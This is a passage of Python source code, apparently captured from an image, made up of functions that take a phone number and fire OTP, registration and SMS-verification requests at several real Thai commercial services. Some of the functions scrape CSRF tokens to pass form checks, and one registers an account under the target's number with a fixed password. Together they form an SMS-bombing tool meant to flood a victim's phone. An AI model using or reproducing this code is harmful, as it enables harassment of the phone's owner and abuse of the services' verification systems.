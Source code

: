 def cang17(phone):

    session = Session()

    searchItem = session.get("https://www.shopat24.com/register/").text

    ReqTOKEN = search("""<input type="hidden" name="_csrf" value="(.*)" />""", searchItem).group(1)

    session.post("https://www.shopat24.com/register/ajax/requestotp/", headers={"User-Agent": useragent, "content-type": "application/x-www-form-urlencoded; charset=UTF-8","X-CSRF-TOKEN": ReqTOKEN}, data={"phoneNumber": phone})

     

def cang18(phone):

    session = Session()

    ReqTOKEN = session.get("https://srfng.ais.co.th/Lt6YyRR2Vvz%2B%2F6MNG9xQvVTU0rmMQ5snCwKRaK6rpTruhM%2BDAzuhRQ%3D%3D?redirect_uri=https%3A%2F%2Faisplay.ais.co.th%2Fportal%2Fcallback%2Ffungus%2Fany&httpGenerate=generated", headers={"User-Agent": useragent}).text

    session.post("https://srfng.ais.co.th/login/sendOneTimePW", data=f"msisdn=66{phone[1:]}&serviceId=AISPlay&accountType=all&otpChannel=sms",headers={"User-Agent": useragent,"Content-Type": "application/x-www-form-urlencoded; charset=UTF-8", "authorization": f'''Bearer {search("""<input type="hidden" id='token' value="(.*)">""", ReqTOKEN).group(1)}'''})

    

def sck(sphone):

    post("https://ocs-prod-api.makroclick.com/next-ocs-member/user/register",json={"username":sphone,"password":"1111a1111A","name":sphone,"provinceCode":"74","districtCode":"970","subdistrictCode":"8654","zipcode":"94140","siebelCustomerTypeId":"710","locale":"th_TH"},headers={"user-agent":"Mozilla/5.0 (Linux; Android 11; V2043) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Mobile Safari/537.36"})

    

def cang19(phone):

		post("https://vaccine.trueid.net/vacc-verify/api/getotp",json={"msisdn":phone,"function":"enroll"},headers={"user-agent":"Mozilla/5.0 (Linux; Android 11; V2043) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Mobile Safari/537.36"})

    

def cang20(phone):

	post("https://topping.truemoveh.com/api/get_request_otp",data={"mobile_number": phone,
})
	

def cang21(phone):

	requests.get(f"https://asv-mobileapp-prod.azurewebsites.net/api/Signin/SendOTP?phoneNo={phone}&type=Register")

	

def cang22(phone):

	requests.get("https://api.quickcash8.com/v1/login/captcha?timestamp=1636359633&sign=3a11b88fbf58615099d15639e714afcc&token=&version=2.3.2&appsFlyerId=1636346593405-2457389151564256014&platform=android&channel_str=&phone="+phone+"&img_code=", headers = {"Host": "api.quickcash8.com", "Connection": "Keep-Alive", "Accept": "gzip", "User-Agent": "okhttp/3.11.0"})
